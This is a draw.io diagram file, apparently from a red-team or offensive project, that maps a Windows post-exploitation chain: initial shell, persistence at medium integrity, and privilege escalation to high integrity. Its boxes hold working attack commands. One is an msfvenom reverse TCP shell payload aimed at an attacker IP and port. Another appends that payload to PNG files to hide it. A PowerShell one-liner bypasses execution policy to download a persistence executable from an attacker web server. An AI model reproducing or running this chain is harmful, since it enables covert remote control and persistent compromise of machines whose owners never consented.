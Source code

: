 <mxfile version="20.7.4" type="github">
  <diagram id="C5RBs43oDa-KdzZeNtuy" name="Overall">
    <mxGraphModel dx="2972" dy="538" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-1" parent="WIyWlLk6GJQsqaUBKTNV-0" />
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-2" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-3" target="G-sO2mh2Iyi2BEA4O4LV-14" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-3" value="Initial Access Shell" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="30" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-4" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="WIyWlLk6GJQsqaUBKTNV-10" edge="1">
          <mxGeometry y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-6" target="G-sO2mh2Iyi2BEA4O4LV-17" edge="1">
          <mxGeometry y="10" relative="1" as="geometry">
            <mxPoint as="offset" />
            <mxPoint x="370" y="120" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-6" value="Establish Medium IL Persistance" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="135" y="170" width="170" height="100" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-8" value="" style="rounded=0;html=1;jettySize=auto;orthogonalLoop=1;fontSize=11;endArrow=block;endFill=0;endSize=8;strokeWidth=1;shadow=0;labelBackgroundColor=none;edgeStyle=orthogonalEdgeStyle;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="WIyWlLk6GJQsqaUBKTNV-10" target="c0Sctn81WB5nrNk0CtNy-44" edge="1">
          <mxGeometry x="0.333" y="20" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-10" value="Escalate Privileges&lt;br&gt;to High IL" style="rhombus;whiteSpace=wrap;html=1;shadow=0;fontFamily=Helvetica;fontSize=12;align=center;strokeWidth=1;spacing=6;spacingTop=-4;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="140" y="340" width="160" height="110" as="geometry" />
        </mxCell>
        <mxCell id="WIyWlLk6GJQsqaUBKTNV-11" value="" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="170" y="1110" width="120" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-15" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-14" target="WIyWlLk6GJQsqaUBKTNV-6" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-14" value="Create Medium IL Tools Directory" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="160" y="90" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-17" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-17" target="P6aCfQ930mBBJoiv-hOj-9" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-17" value="Update Persistance Payload Code" style="swimlane;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="30" width="1130" height="140" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-19" value="Pers_Medium.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="20" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-21" value="Medium IL Tools Directory&#xa;(9001.exe / 9002.exe)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="G-sO2mh2Iyi2BEA4O4LV-19" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-23" value="9001.cpp&#xa;9002.cpp" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="200" y="40" width="150" height="70" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-25" value="Medium IL Tools Directory&#xa;(9001.png / 9002.png)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;" parent="G-sO2mh2Iyi2BEA4O4LV-23" vertex="1">
          <mxGeometry y="30" width="150" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-30" value="9001.raw&#xa;9002.raw" style="swimlane;fontStyle=5;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="400" y="40" width="140" height="90" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-31" value="Attacker IP" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="G-sO2mh2Iyi2BEA4O4LV-30" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-32" value="Port (9001 / 9002)" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;shadow=0;" parent="G-sO2mh2Iyi2BEA4O4LV-30" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-37" value="msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp -n 1800 --pad-nops LHOST=IP LPORT=Port -f raw EXITFUNC=thread &amp;gt; port#.raw" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-17" vertex="1">
          <mxGeometry x="550" y="60" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-57" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="G-sO2mh2Iyi2BEA4O4LV-49" target="P6aCfQ930mBBJoiv-hOj-24" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-49" value="Stage Persistance Payloads" style="swimlane;shadow=0;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="460" width="690" height="110" as="geometry">
            <mxRectangle x="480" y="340" width="70" height="30" as="alternateBounds" />
          </mxGeometry>
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-39" value="Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="40" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-51" value="9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="180" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-52" value="9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="310" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-53" value="9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="440" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-54" value="9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="G-sO2mh2Iyi2BEA4O4LV-49" vertex="1">
          <mxGeometry x="570" y="50" width="110" height="40" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-16" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="WIyWlLk6GJQsqaUBKTNV-1" source="P6aCfQ930mBBJoiv-hOj-9" target="G-sO2mh2Iyi2BEA4O4LV-49" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-9" value="Compile Persistance Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#FF6666;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="230" width="880" height="180" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-12" value="Compile EXE&#39;s" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;strokeColor=#000000;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="70" y="40" width="140" height="120" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-13" value="Pers_Medium.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="P6aCfQ930mBBJoiv-hOj-12" vertex="1">
          <mxGeometry y="30" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-14" value="9001.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="P6aCfQ930mBBJoiv-hOj-12" vertex="1">
          <mxGeometry y="60" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-15" value="9002.cpp" style="text;strokeColor=none;fillColor=#FF6666;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" parent="P6aCfQ930mBBJoiv-hOj-12" vertex="1">
          <mxGeometry y="90" width="140" height="30" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-35" value="Generate MSFVenmon Payload and Embed Into png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="255" y="40" width="160" height="50" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-38" value="cp original.png combined.png; cat port#.raw &amp;gt;&amp;gt; Port#.png" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#FF6666;" parent="P6aCfQ930mBBJoiv-hOj-9" vertex="1">
          <mxGeometry x="440" y="40" width="290" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-24" value="Execute Persistence Payloads" style="swimlane;whiteSpace=wrap;html=1;strokeColor=#FFFFFF;fillColor=#00CC00;" parent="WIyWlLk6GJQsqaUBKTNV-1" vertex="1">
          <mxGeometry x="470" y="618" width="910" height="272" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-5" value="Download staged binaries and png&#39;s to Medium IL Tools directory." style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="35" y="45" width="120" height="80" as="geometry" />
        </mxCell>
        <mxCell id="G-sO2mh2Iyi2BEA4O4LV-7" value="powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -c &quot;IEX(New-Object Net.WebClient).downloadFile(&#39;http://[IP]:[web server port]/Pers_Medium.exe&#39;,&#39;C:\Path\file.ext&#39;)&quot;" style="shape=document;whiteSpace=wrap;html=1;boundedLbl=1;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="170" y="45" width="570" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P7n5YuG6-lRFGP6FSJ7v-0" value="Execute Pers_Medium.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="190" y="135" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P7n5YuG6-lRFGP6FSJ7v-1" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.438;exitY=0.997;exitDx=0;exitDy=0;exitPerimeter=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="P6aCfQ930mBBJoiv-hOj-24" source="G-sO2mh2Iyi2BEA4O4LV-5" target="P7n5YuG6-lRFGP6FSJ7v-0" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-0" value="Execute 9001.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="470" y="100" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;dashed=1;" parent="P6aCfQ930mBBJoiv-hOj-24" source="P7n5YuG6-lRFGP6FSJ7v-0" target="P6aCfQ930mBBJoiv-hOj-0" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="415.0" y="155.0" as="sourcePoint" />
            <mxPoint x="505" y="225" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-1" value="Execute 9002.exe" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="470" y="170" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-2" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;dashed=1;" parent="P6aCfQ930mBBJoiv-hOj-24" source="P7n5YuG6-lRFGP6FSJ7v-0" target="P6aCfQ930mBBJoiv-hOj-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-5" value="Read Payload From 9001.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="100" width="120" height="50" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-7" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;dashed=1;" parent="P6aCfQ930mBBJoiv-hOj-24" source="P6aCfQ930mBBJoiv-hOj-0" target="P6aCfQ930mBBJoiv-hOj-5" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="P6aCfQ930mBBJoiv-hOj-6" value="Read Payload From 9002.png" style="rounded=1;whiteSpace=wrap;html=1;fontSize=12;glass=0;strokeWidth=1;shadow=0;fillColor=none;strokeColor=#00CC00;" parent="P6aCfQ930mBBJoiv-hOj-24" vertex="1">
          <mxGeometry x="760" y="202" width="120" height="50" as="geometry" />
        </mxCell>
